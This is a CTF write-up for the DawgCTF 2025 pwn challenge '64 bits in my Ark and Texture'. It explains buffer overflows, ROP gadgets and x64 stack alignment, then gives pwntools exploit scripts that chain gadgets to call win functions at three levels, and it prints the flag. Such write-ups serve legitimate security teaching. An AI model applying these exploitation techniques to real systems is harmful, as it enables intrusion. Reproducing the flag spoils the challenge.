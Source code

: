 ```yaml
---
title: "64 bits in my Ark and Texture"
description: "Can you pwn it? No libc or system needed. Just good ol, 64 bit binary exploitation."
pubDate: 2025-04-22
ctf: "DawgCTF 2025"
category: "pwn"
author: "HulkOperator"
image: "./images/25-dawg/icon.png"
section: "CTFs"
---
```


## Background
### Stack Buffer Overflow
A buffer overflow occurs when excessive data is written into a space with limited capacity. When this happens, the extra data leaks out of the variable's bounds and overwrites other values on the stack. If random values overflow the buffer, then the program crashes. However, by crafting a calculated payload, we can control the execution flow through this overflow. 

Typically, the return address is targeted when exploiting such vulnerabilities. What exactly is a return address, and what purpose does it serve? When a function completes its execution, the program needs to know where to resume operation—that's where the return address comes in. This value stored on the stack tells the processor where to continue execution after the function finishes. 

If we can overwrite the return address during the buffer overflow, we can control the program's execution flow.

### ROP Gadgets
This challenge requires a heavy reliance on ROP Gadgets to obtain the flag. Hence, before moving to the solution, let's understand what they mean. 
ROP Gadgets are small sequences of machine instructions already present in a binary and end with the `ret` instruction. These gadgets can be used to manipulate values in registers. For example, the following gadget pops the value on the top of the stack into the `rdi` register and returns.
```asm
pop rdi
ret
```

### x64 Stack Alignment
While solving this challenge, I wasted a lot of time due to stack alignment issues. Hence, let's understand why it's essential. 
x86_64 architecture requires that the stack be 16-byte aligned at all times. That is, the value of the register `rsp` must be divisible by 16. If the stack is not aligned and a function is called, it will most likely result in a crash. 

## Solution
Now that we have covered the background information, let's dive into solving this challenge.

### Level 0
The binary asks three simple questions about the x86_64 Architecture, which are trivial to answer.

![Level 0 Answers](images/25-dawg/x64_level0.png)

### Level 1
Now, the actual fun begins. The Level 1 asks us to jump to the address `0x401401`. We can test if the program is vulnerable to buffer overflow using two methods. The long and tedious one would be decompiling the binary using Ghidra, analyzing the source code, and checking if it is vulnerable. A simpler approach would be to send a large input value and check if the program crashes. Let's do this.

A large input value can be generated using 
```py
print("A"*1000)
```
Entering this value crashes the program
![Vuln Confirmation](images/25-dawg/x64_level_1_1.png)

Now that we have confirmed the existence of a vulnerability, we need to identify the position of the payload that's overwriting the return address. We can do this by sending an input with a pattern.
`msf-pattern_create -l 1000`

Then fire up GDB `gdb ./chall` and enter `r` to run the program. For the level 1 input, paste the pattern generated above and identify the `rsp` value when the program crashes.
![RSP Crash Value](images/25-dawg/x64_level_1_2.png) 

Then `msf-pattern_offset -q 0x4132664131664130` can be used to identify the offset where the return address is overwritten. The result indicates the offset as 152. 

This level asks us to jump to the address `0x401401`. We can do this by sending a payload starting with 152 bytes of arbitrary data and then this address. When the function is completed, the execution flow is resumed at the address of our choice.
Well, not so fast. If we do this, we break the stack alignment and our payload causes a crash (Because 152 % 16 != 0). We must add an additional byte to our payload to keep the stack aligned.
Hence, we can use a simple `ret` gadget to maintain the stack alignment. We can identify the address of this gadget using the ROPgadget tool.
`ROPgadget --binary ./chall --opcode c3`

Since we are dealing with binary data, we can no longer copy and paste input. So, the rest of the implementation will be done using Python.
```py
from pwn import *

conn = process("./chall")

# Level 0 
conn.recvuntil(b"> ")
conn.sendline(b"2")
conn.recvuntil(b"> ")
conn.sendline(b"1")
conn.recvuntil(b"> ")
conn.sendline(b"4")
print(conn.recv().decode())

# Level 1
l1_arbitrary_data = b"A" * 152
ret_gadget = p64(0x40101a)
l1_ret_addr = p64(0x401401)

l1_payload = l1_arbitrary_data + ret_gadget + l1_ret_addr
conn.sendline(l1_payload)
print(conn.recvuntil(b"Continue:").decode())
```

### Level 2
The next level challenges us to jump to the address `0x401314` with the argument `0xDEADBEEF`. The process used to solve this level is similar to the previous level. By crashing the program, the offset for the return address turns out to be `40`. 

This is just one part of the problem. The other part is to pass `0xDEADBEEF` as an argument to this function. In the x86_64 architecture, the first four arguments are passed in the registers `rdi`, `rsi`, `rdx`, and `rcx`. Additional arguments are placed on the stack from right to left. 
Hence, we can manipulate the `rdi` value by placing `0xDEADBEEF` on the stack and jumping to the following gadget
```asm
pop rdi
ret
```
This gadget's address can be identified using `ROPgadget --binary ./chall --opcode 5fc3`.

So, our level 2 payload will look as follows
```py
l2_arbitrary_data = b"A" * 40
ret_gadget = p64(0x40101a)
pop_rdi_gadget = p64(0x4017d6)
deadbeef = p64(0xdeadbeef)
l2_ret_addr = p64(0x401314)
l2_payload = l2_arbitrary_data + ret_gadget + pop_rdi_gadget + deadbeef + l2_ret_addr
conn.sendline(l2_payload)
print(conn.recv().decode())

conn.interactive()
```

### Level 3
Level 3 has a bit more steps and challenges us to pass three arguments (`0xDEADBEEF`, `0xDEAFFACE`, and `0xFEEDCAFE`) and figure out the function's address. The challenge binary has defined these levels in different functions, namely, win1, win2, and win3. Since the address of win3 is not given, we can use GDB to identify the address: `disass win3`. This gives us the Win3 function's address `0x4011e6`. 

Now, the process used to solve this challenge is exactly the same as the previous level. However, since 3 arguments are involved, we have to utilise 3 gadgets for manipulating `rdi`, `rsi`, and `rdx` registers. 

```py
# Level 3
l3_arbitrary_data = b"A" * 56
win3_addr = p64(0x4011e6)
pop_rdi_ret = p64(0x4017d6)
pop_rsi_ret = p64(0x4017d8)
pop_rdx_ret = p64(0x4017da)

payload = l3_arbitrary_data + p64(0x40101a)+  pop_rdi_ret + p64(0xDEADBEEF) + pop_rsi_ret + p64(0xDEAFFACE) + pop_rdx_ret + p64(0xFEEDCAFE) + win3_addr
conn.sendline(payload)
print(conn.recv().decode())

conn.interactive()
```


Flag: `DawgCTF{C0ngR4tul4t10ns_d15c1p13_y0u_4r3_r34dy_2_pwn!}`
